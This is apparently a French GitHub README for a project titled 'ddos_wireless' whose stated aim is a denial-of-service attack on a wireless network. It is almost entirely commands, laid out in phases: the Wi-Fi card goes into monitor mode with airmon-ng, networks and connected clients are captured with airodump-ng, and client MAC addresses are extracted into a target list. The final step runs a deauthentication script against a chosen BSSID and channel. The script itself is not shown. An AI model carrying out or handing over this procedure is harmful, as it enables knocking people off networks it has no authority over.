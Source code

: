 # ddos_wireless
Projet de création d'une attaque ddos sur un réseau sans fil

## Phase de reconnaissance :
#### Passer l'interface wifi de la machine en mode monitor  

1 - Verifier interfaces Wifi-disponibles :
```
iwconfig
```

2 - Arreter l'interface Wifi :
```
sudo ifconfig wlan0 down
```

3 - Passer en mode monitor :
```
sudo airmon-ng start wlan0
```

4 - Capturer les informations des réseaux Wifi :
```
sudo airodump-ng wlan0mon
```
5 - Information spécifique sur un réseau ( sortie dans output/client )
'''
sudo airodump-ng --bssid <BSSID> -c <channel> -w output/client wlan0mon
'''
#### Repasser en mode managed :

1 - Arreter le mode monitor :
```
sudo airmon-ng stop wlan0mon
```

2 - Reactiver l'interface Wifi :
```
sudo ifconfig wlan0 up
```

## Phase de préparation
#### Recuperation des adresses MAC

1 - Récuperation des adresses MAC des machines connectées au réseau : 
'''
awk -F ',' {'print $1'} output/client-01.csv | sed '1,5d' > client.txt
'''
2 - Donner les droits au fichier
‘‘‘
chmod 700 client.txt
‘‘‘

#### Installation outils
'''
git clone https://github.com/silverwind/oui.git
sudo apt install npm
npm i -g oui
'''

## Phase d'attaque
Il faut penser à recuperer le bssid à attaque avec son channel

'''
sudo python3 deauth.py
'''

